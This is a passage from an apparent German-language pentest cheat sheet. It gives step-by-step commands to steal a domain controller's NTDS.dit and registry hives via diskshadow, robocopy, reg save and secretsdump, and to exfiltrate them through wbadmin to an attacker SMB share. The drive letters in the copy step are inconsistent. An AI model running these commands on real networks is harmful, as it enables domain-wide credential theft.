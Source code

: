Der direkte Zugriff auf das Dateisystem des Domänencontrollers ermöglicht den Diebstahl der `NTDS.dit`-Datenbank, die alle NTLM-Hashes für Domänenbenutzer und -computer enthält.

#### Verwendung von diskshadow.exe

1. Erstellen Sie eine Schattenkopie des `C`-Laufwerks:
```cmd
diskshadow.exe
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit
```
2. Kopiere `NTDS.dit` aus der Schattenkopie:
```cmd
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```
Alternativ können Sie `robocopy` zum Kopieren von Dateien verwenden:
```cmd
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```
3. Extrahiere `SYSTEM` und `SAM` zur Hash-Abfrage:
```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```
4. Alle Hashes aus `NTDS.dit` abrufen:
```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
#### Verwendung von wbadmin.exe

1. Richten Sie das NTFS-Dateisystem für den SMB-Server auf der Angreifermaschine ein und speichern Sie die SMB-Anmeldeinformationen auf der Zielmaschine.
2. Verwenden Sie `wbadmin.exe` für die Systembackup und `NTDS.dit` Extraktion:
```cmd
net use X: \\<AttackIP>\sharename /user:smbuser password
echo "Y" | wbadmin start backup -backuptarget:\\<AttackIP>\sharename -include:c:\windows\ntds
wbadmin get versions
echo "Y" | wbadmin start recovery -version:<date-time> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

Für eine praktische Demonstration siehe [DEMO VIDEO WITH IPPSEC](https://www.youtube.com/watch?v=IfCysW0Od8w&t=2610s).

## DnsAdmins

Mitglieder der **DnsAdmins**-Gruppe können ihre Berechtigungen ausnutzen, um eine beliebige DLL mit SYSTEM-Rechten auf einem DNS-Server zu laden, der häufig auf Domänencontrollern gehostet wird. Diese Fähigkeit ermöglicht erhebliches Ausnutzungspotenzial.
